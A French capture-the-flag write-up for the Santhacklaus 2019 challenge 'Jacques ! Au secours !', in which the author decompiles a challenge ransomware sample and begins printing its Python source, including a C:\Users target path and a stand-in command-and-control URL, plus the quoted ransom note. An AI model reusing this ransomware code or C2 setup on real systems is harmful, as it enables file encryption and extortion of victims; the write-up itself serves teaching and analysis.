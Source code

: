```yaml
---
weight: 4
title: "[Santhacklaus 2019] - Jacques ! Au secours !"
date: 2019-12-22T21:57:40+08:00
draft: false
author: "Maki"
authorLink: "https://www.maki.bzh"
description: ""
images: []
resources:
- name: "featured-image"
  src: "featured-image.png"

tags: ["santhacklaus", "h25", "mathis hammel", "cryptography", "file format", "aes", "python"]
categories: ["Writeups"]

lightgallery: true
---
```


> One of our VIP clients, who wishes to remain anonymous, has apparently been hacked and all their important documents are now corrupted.
> Can you help us recover the files? We found a strange piece of software that might have caused all of this.
> MD5 of the file : ccaab91b06fc9a77f3b98d2b9164df8e
> Fichiers: http://cloud.id-iot.team/s/e2ZgLdHKwMoFQ8x

## Etat des lieux

Cette épreuve commence donc avec une archive zip contenant plusieurs fichiers:

![](/lib/images/writeups/2019_santhacklaus/jacqueschirac/upload_b0b0fa8588a7c488222e5715d5e4fc93.png)

Le fichier "READ_THIS.txt" contient un message charmant:

> We have hacked all your files. Buy 1 BTC and contact us at hacked@virus.com

Le fichier "virus.cpython-37.pyc" rappelle un fichier de python compilé. Malheureusement [pycdc](https://github.com/zrax/pycdc) ne décompile pas correctement le "virus". Heureusement qu'il existe des outils en ligne pour tout et n'importe quoi:

> https://python-decompiler.com/

Le résultat est vraiment mieux, après corrections de quelques petites choses, on obtient le code suivant:

```python
#!/usr/bin/python3
from Crypto.Cipher import AES
from Crypto.Random import get_random_bytes
import hashlib, getpass, os, requests
TARGET_DIR = 'C:\\Users'
C2_URL = 'https://c2.virus.com/'
```